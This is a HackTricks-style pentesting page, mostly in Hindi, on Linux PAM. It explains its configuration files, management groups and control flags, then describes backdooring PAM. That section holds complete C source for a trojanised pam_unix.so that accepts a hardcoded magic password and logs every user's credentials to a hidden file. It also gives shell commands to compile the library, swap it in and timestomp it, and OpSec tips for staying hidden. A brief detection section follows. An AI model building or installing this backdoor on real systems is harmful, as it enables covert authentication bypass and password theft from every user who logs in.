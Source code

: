 # PAM - Pluggable Authentication Modules

{{#include ../../banners/hacktricks-training.md}}

### Basic Information

**PAM (Pluggable Authentication Modules)** एक सुरक्षा तंत्र के रूप में कार्य करता है जो **उन उपयोगकर्ताओं की पहचान की पुष्टि करता है जो कंप्यूटर सेवाओं तक पहुँचने का प्रयास कर रहे हैं**, उनके पहुँच को विभिन्न मानदंडों के आधार पर नियंत्रित करता है। यह एक डिजिटल गेटकीपर के समान है, यह सुनिश्चित करते हुए कि केवल अधिकृत उपयोगकर्ता विशिष्ट सेवाओं के साथ संलग्न हो सकते हैं जबकि संभावित रूप से उनके उपयोग को सीमित किया जा सकता है ताकि सिस्टम ओवरलोड से बचा जा सके।

#### Configuration Files

- **Solaris और UNIX-आधारित सिस्टम** आमतौर पर एक केंद्रीय कॉन्फ़िगरेशन फ़ाइल का उपयोग करते हैं जो `/etc/pam.conf` पर स्थित होती है।
- **Linux सिस्टम** एक निर्देशिका दृष्टिकोण को प्राथमिकता देते हैं, जिसमें सेवा-विशिष्ट कॉन्फ़िगरेशन `/etc/pam.d` के भीतर संग्रहीत होते हैं। उदाहरण के लिए, लॉगिन सेवा के लिए कॉन्फ़िगरेशन फ़ाइल `/etc/pam.d/login` पर पाई जाती है।

लॉगिन सेवा के लिए PAM कॉन्फ़िगरेशन का एक उदाहरण इस प्रकार हो सकता है:
```
auth required /lib/security/pam_securetty.so
auth required /lib/security/pam_nologin.so
auth sufficient /lib/security/pam_ldap.so
auth required /lib/security/pam_unix_auth.so try_first_pass
account sufficient /lib/security/pam_ldap.so
account required /lib/security/pam_unix_acct.so
password required /lib/security/pam_cracklib.so
password required /lib/security/pam_ldap.so
password required /lib/security/pam_pwdb.so use_first_pass
session required /lib/security/pam_unix_session.so
```
#### **PAM प्रबंधन क्षेत्र**

ये क्षेत्र, या प्रबंधन समूह, **auth**, **account**, **password**, और **session** शामिल हैं, प्रत्येक प्रमाणीकरण और सत्र प्रबंधन प्रक्रिया के विभिन्न पहलुओं के लिए जिम्मेदार है:

- **Auth**: उपयोगकर्ता की पहचान को मान्य करता है, अक्सर पासवर्ड के लिए संकेत देकर।
- **Account**: खाता सत्यापन को संभालता है, जैसे समूह सदस्यता या समय-सीमा प्रतिबंधों की जांच करना।
- **Password**: पासवर्ड अपडेट को प्रबंधित करता है, जिसमें जटिलता जांच या शब्दकोश हमलों की रोकथाम शामिल है।
- **Session**: सेवा सत्र की शुरुआत या अंत के दौरान क्रियाओं का प्रबंधन करता है, जैसे निर्देशिकाओं को माउंट करना या संसाधन सीमाएँ सेट करना।

#### **PAM मॉड्यूल नियंत्रण**

नियंत्रण मॉड्यूल की सफलता या विफलता पर प्रतिक्रिया को निर्धारित करते हैं, जो समग्र प्रमाणीकरण प्रक्रिया को प्रभावित करते हैं। इनमें शामिल हैं:

- **Required**: एक आवश्यक मॉड्यूल की विफलता अंततः विफलता का परिणाम देती है, लेकिन केवल तब जब सभी बाद के मॉड्यूल की जांच की जाती है।
- **Requisite**: विफलता पर प्रक्रिया का तात्कालिक समाप्ति।
- **Sufficient**: सफलता उसी क्षेत्र के बाकी जांचों को बायपास करती है जब तक कि कोई बाद का मॉड्यूल विफल न हो।
- **Optional**: केवल विफलता का कारण बनता है यदि यह स्टैक में एकमात्र मॉड्यूल है।

#### उदाहरण परिदृश्य

कई auth मॉड्यूल के साथ एक सेटअप में, प्रक्रिया एक सख्त क्रम का पालन करती है। यदि `pam_securetty` मॉड्यूल लॉगिन टर्मिनल को अनधिकृत पाता है, तो रूट लॉगिन अवरुद्ध हो जाते हैं, फिर भी सभी मॉड्यूल को इसके "required" स्थिति के कारण संसाधित किया जाता है। `pam_env` पर्यावरण चर सेट करता है, जो उपयोगकर्ता अनुभव में सहायता कर सकता है। `pam_ldap` और `pam_unix` मॉड्यूल मिलकर उपयोगकर्ता को प्रमाणित करते हैं, `pam_unix` पहले से दिए गए पासवर्ड का उपयोग करने का प्रयास करता है, प्रमाणीकरण विधियों में दक्षता और लचीलापन बढ़ाता है।

## PAM में बैकडोरिंग – `pam_unix.so` को हुक करना

उच्च-मूल्य वाले Linux वातावरण में एक क्लासिक स्थिरता चाल है **वैध PAM पुस्तकालय को एक ट्रोजन ड्रॉप-इन के साथ स्वैप करना**। क्योंकि हर SSH / कंसोल लॉगिन अंततः `pam_unix.so:pam_sm_authenticate()` को कॉल करता है, कुछ C पंक्तियाँ क्रेडेंशियल कैप्चर करने या *जादुई* पासवर्ड बायपास लागू करने के लिए पर्याप्त हैं।

### संकलन चीटशीट
```c
#define _GNU_SOURCE
#include <security/pam_modules.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static int (*orig)(pam_handle_t *, int, int, const char **);
static const char *MAGIC = "Sup3rS3cret!";

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
const char *user, *pass;
pam_get_user(pamh, &user, NULL);
pam_get_authtok(pamh, PAM_AUTHTOK, &pass, NULL);

/* Magic pwd → immediate success */
if(pass && strcmp(pass, MAGIC) == 0) return PAM_SUCCESS;

/* Credential harvesting */
int fd = open("/usr/bin/.dbus.log", O_WRONLY|O_APPEND|O_CREAT, 0600);
dprintf(fd, "%s:%s\n", user, pass);
close(fd);

/* Fall back to original function */
if(!orig) {
orig = dlsym(RTLD_NEXT, "pam_sm_authenticate");
}
return orig(pamh, flags, argc, argv);
}
```
संकलित करें और चुपके से बदलें:
```bash
gcc -fPIC -shared -o pam_unix.so trojan_pam.c -ldl -lpam
mv /lib/security/pam_unix.so /lib/security/pam_unix.so.bak
mv pam_unix.so /lib/security/pam_unix.so
chmod 644 /lib/security/pam_unix.so     # keep original perms
touch -r /bin/ls /lib/security/pam_unix.so  # timestomp
```
### OpSec Tips
1. **Atomic overwrite** – एक अस्थायी फ़ाइल में लिखें और `mv` का उपयोग करके स्थान पर ले जाएं ताकि आधी लिखी गई लाइब्रेरीज़ SSH को लॉक न कर सकें।
2. लॉग फ़ाइल का स्थान जैसे `/usr/bin/.dbus.log` वैध डेस्कटॉप वस्तुओं के साथ मिश्रित होता है।
3. प्रतीक निर्यात को समान रखें (`pam_sm_setcred`, आदि) ताकि PAM की गलत व्यवहार से बचा जा सके।

### Detection
* `pam_unix.so` के MD5/SHA256 की तुलना वितरण पैकेज से करें।
* `/lib/security/` के तहत विश्व-लिखने योग्य या असामान्य स्वामित्व की जांच करें।
* `auditd` नियम: `-w /lib/security/pam_unix.so -p wa -k pam-backdoor`।

### References

- [https://hotpotato.tistory.com/434](https://hotpotato.tistory.com/434)
- [Palo Alto Unit42 – Infiltration of Global Telecom Networks](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)

{{#include ../../banners/hacktricks-training.md}}
